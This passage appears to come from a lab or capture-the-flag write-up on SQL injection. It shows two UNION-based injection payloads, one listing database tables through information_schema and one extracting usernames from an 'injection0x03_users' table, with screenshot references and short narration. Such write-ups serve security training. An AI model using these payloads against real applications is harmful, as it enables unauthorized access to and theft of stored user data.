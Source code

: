 Hooray, now it's going to be easy -->

```
Senpai Knife Set' union select null,null,null,table_name from information_schema.tables#
```

<figure><img src="../../../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

it printed out every table so we just have to pull the one that is interesting for us:

<figure><img src="../../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

```
Senpai Knife Set' union select null,null,null,username from injection0x03_users#
```

<figure><img src="../../../../.gitbook/assets/image (271).png" alt=""><figcaption><p><span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>
